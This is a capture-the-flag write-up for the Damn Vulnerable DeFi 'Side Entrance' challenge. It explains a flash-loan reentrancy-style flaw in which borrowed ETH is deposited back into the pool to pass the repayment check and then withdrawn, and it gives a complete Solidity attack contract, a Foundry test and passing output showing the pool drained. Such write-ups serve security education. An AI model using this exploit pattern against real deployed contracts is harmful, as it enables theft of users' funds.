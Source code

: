 # Challenge - Side Entrance

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.

## Objective of CTF

Yoy start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.

## Vulnerability Analysis

The `SideEntranceLenderPool` contract offers a flashloan feature, implemented as follows:

```solidity
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    if (address(this).balance < balanceBefore) {
        revert RepayFailed();
    }
}
```

This function allows a flashloan initiator to implement an `execute()` function that can perform any action. The only requirement is that the initiator must repay the borrowed ETH. Under normal circumstances, the repayment is made directly. However, there is a potential vulnerability: the `SideEntranceLenderPool` contract also provides deposit and withdrawal functionalities for ETH. By taking a flashloan and depositing the borrowed ETH back into the pool during the loan execution, you can bypass the balance check. After the flashloan process is complete, you can then withdraw the deposited ETH from the pool based on the deposit record, effectively allowing you to keep the borrowed amount.

### Attack steps:

1. Initiate a flashLoan() and deposit the borrowed ETH back into the pool to bypass the balance check within the `flashLoan()` function.
2. Withdraw all the ETH from the pool to a specified the recovery address.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {Ownable} from "solady/auth/Ownable.sol";

interface ISideEntranceLenderPool {
    function deposit() external payable;
    function withdraw() external;
    function flashLoan(uint256 amount) external;
}

contract AttackSideEntrance is Ownable {
    address private immutable pool;
    address private immutable recovery;

    constructor(address _pool, address _recovery) {
        _initializeOwner(msg.sender);

        pool = _pool;
        recovery = _recovery;
    }

    function attack(uint256 amount) external onlyOwner {
        // initiate a flashloan from the pool
        ISideEntranceLenderPool(pool).flashLoan(amount);
        // withdraw the ETH deposited during the flashloan
        ISideEntranceLenderPool(pool).withdraw();
    }

    function execute() external payable {
        require(msg.sender == pool, "Not pool");
        // repay the borrowed ETH by depositing it back into the pool
        ISideEntranceLenderPool(pool).deposit{value: msg.value}();
    }

    receive() external payable {
        (bool success,) = recovery.call{value: msg.value}("");
        require(success, "Failed to send ether");
    }
}
```

### Test contract

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {SideEntranceLenderPool} from "../../src/side-entrance/SideEntranceLenderPool.sol";
import {AttackSideEntrance} from "../../src/side-entrance/AttackSideEntrance.sol";

contract SideEntranceChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address recovery = makeAddr("recovery");

    uint256 constant ETHER_IN_POOL = 1000e18;
    uint256 constant PLAYER_INITIAL_ETH_BALANCE = 1e18;

    SideEntranceLenderPool pool;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        startHoax(deployer);
        pool = new SideEntranceLenderPool();
        pool.deposit{value: ETHER_IN_POOL}();
        vm.deal(player, PLAYER_INITIAL_ETH_BALANCE);
        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public view {
        assertEq(address(pool).balance, ETHER_IN_POOL);
        assertEq(player.balance, PLAYER_INITIAL_ETH_BALANCE);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_sideEntrance() public checkSolvedByPlayer {
        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint("ETH balance in the pool contract", address(pool).balance, 18);
        emit log_named_decimal_uint("ETH balance in the recovery", recovery.balance, 18);

        AttackSideEntrance maliciousContract = new AttackSideEntrance(address(pool), recovery);
        maliciousContract.attack(ETHER_IN_POOL);

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint("ETH balance in the pool contract", address(pool).balance, 18);
        emit log_named_decimal_uint("ETH balance in the recovery", recovery.balance, 18);
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        assertEq(address(pool).balance, 0, "Pool still has ETH");
        assertEq(recovery.balance, ETHER_IN_POOL, "Not enough ETH in recovery account");
    }
}
```

### Test Result

```
Ran 2 tests for test/side-entrance/SideEntrance.t.sol:SideEntranceChallenge
[PASS] test_assertInitialState() (gas: 12975)
[PASS] test_sideEntrance() (gas: 435173)
Logs:
  -------------------------- Before exploit --------------------------
  ETH balance in the pool contract: 1000.000000000000000000
  ETH balance in the recovery: 0.000000000000000000
  -------------------------- After exploit --------------------------
  ETH balance in the pool contract: 0.000000000000000000
  ETH balance in the recovery: 1000.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 7.75ms (721.71µs CPU time)

Ran 1 test suite in 264.05ms (7.75ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
